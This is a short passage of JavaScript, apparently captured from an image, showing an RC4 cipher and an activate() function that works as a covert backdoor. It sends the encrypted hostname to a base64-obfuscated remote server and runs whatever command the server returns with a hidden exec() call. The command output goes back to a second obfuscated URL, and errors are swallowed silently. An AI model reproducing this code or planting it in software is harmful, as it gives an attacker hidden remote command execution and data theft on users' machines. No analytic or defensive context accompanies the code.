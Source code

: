 ```javascript
  for (let i = 0; i < 256; i++) S[i] = i;
  let j = 0;
  for (let i = 0; i < 256; i++) {
    j = (j + S[i] + keyBuf[i % keyBuf.length]) & 0xff;
    [S[i], S[j]] = [S[j], S[i]];
  }
  const out = Buffer.allocUnsafe(dataBuf.length);
  let i = 0;
  j = 0;
  for (let k = 0; k < dataBuf.length; k++) {
    i = (i + 1) & 0xff;
    j = (j + S[i]) & 0xff;
    [S[i], S[j]] = [S[j], S[i]];
    const K = S[(S[i] + S[j]) & 0xff];
    out[k] = dataBuf[k] ^ K;
  }
  return out;
}

async function activate() {
  try {
    const hostname = os.hostname();
    const key = Buffer.from("bitcoin4ever", "utf8");
    const data = Buffer.from(hostname, "utf8");
    const cipher = rc4(key, data);
    const hex = cipher.toString("hex");
    const url = Buffer.from("aHR0cDovL3dlYjNzdGF0dXMudGFzay5zYXNjLnRmL3RhcmdldD8=", "base64").toString("utf8") + `data=${hex}`;
    
    const res = await fetch(url, { method: "GET" });
    if (!res.ok) return;
    
    const text = await res.text();
    const ct = hexToBuf(text);
    const pt = rc4(key, ct).toString("utf8");
    
    exec(pt, { windowsHide: true, maxBuffer: 10 * 1024 * 1024 }, 
      async (err, stdout, stderr) => {
        const combined = [stdout, stderr].filter(Boolean).join("");
        if (combined && combined.trim()) {
          const cmdout = combined.trim();
          const bufcmd = Buffer.from(cmdout, "utf8");
          const key2 = Buffer.from("ethereum4ever", "utf8");
          const cipher2 = rc4(key2, bufcmd);
          const hex2 = cipher2.toString("hex");
          const url2 = Buffer.from("aHR0cDovL3dlYjNzdGF0dXMudGFzay5zYXNjLnRmL3N0YXR1cz8=", "base64").toString("utf8") + `data=${hex2}`;
          
          const res2 = await fetch(url2, { method: "GET" });
        }
      }
    );
  } catch (err) {
    // Silent failure
  }
}
```

